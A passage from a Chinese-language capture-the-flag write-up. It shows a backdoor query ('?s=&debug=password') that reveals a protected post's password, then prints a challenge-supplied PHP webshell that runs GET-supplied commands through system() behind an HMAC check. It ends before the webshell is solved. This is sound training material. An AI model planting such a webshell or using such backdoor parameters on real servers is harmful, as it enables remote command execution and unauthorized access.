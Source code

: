 满脸懵逼，然后开始瞎搞，结果发现所有的页面都可以用`?s=xxx`进行搜索，例如：

![7](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/93745951258884d71c1e9dc1ea5126a0.png)

内容中存在`Backup`

![8](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/8a615eacaac0d5cb8f73d5d6f2b2cb29.png)

然而对于被密码保护的文章并没有什么用。

然后又发现可以看某个月的文章列表，尝试搜索下

![9](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/1b892fe429f4fdc9993bb0d8cc5e5b73.png)

![10](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/35b662ca6589da87e525cb2021b8f374.png)

还是不行。

不过最重要的是这个页面至少把有这篇文章列出来了。

<font style="color:red">胡乱分析思考一下，我们要利用提供的后门查看这篇文章的密码，需要进入搜索的流程但又没有真正的进行搜索？或者是让程序直接返回全部？这样FLAG2这篇文章在结果中就不会被去掉，后门也能输出。</font>

所以搜索空字符串试试...

![11](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/919695db77e7d28db9cc639d415328ba.png)

这个就是基于经验的直觉。

然后利用后门`?s=&debug=password`得到文章的密码，查看文章得到flag2。

具体原理需要调试源码才能知道，懒得搞了。

### webshell

打开题目查看页面源代码，给了我们一个php的webshell的代码，按套路首先把eval改成print本地看看具体执行了个啥：

```php
 <?php
  function run()
  {
    if (isset($_GET['cmd']) && isset($_GET['sig'])) {
      $cmd = hash('SHA512', $_SERVER['REMOTE_ADDR']) ^ (string) $_GET['cmd'];
      $key = $_SERVER['HTTP_USER_AGENT'] . sha1($_SERVER['HTTP_HOST']);
      $sig = hash_hmac('SHA512', $cmd, $key);
      if ($sig === (string) $_GET['sig']) {
        header('Content-Type: text/plain');
        return !!system($cmd);
      }
    }
    return false;
  }
  function fuck()
  {
    print(str_repeat("\n", 4096));
    readfile($_SERVER['SCRIPT_FILENAME']);
  }
  run() ?: fuck();
```
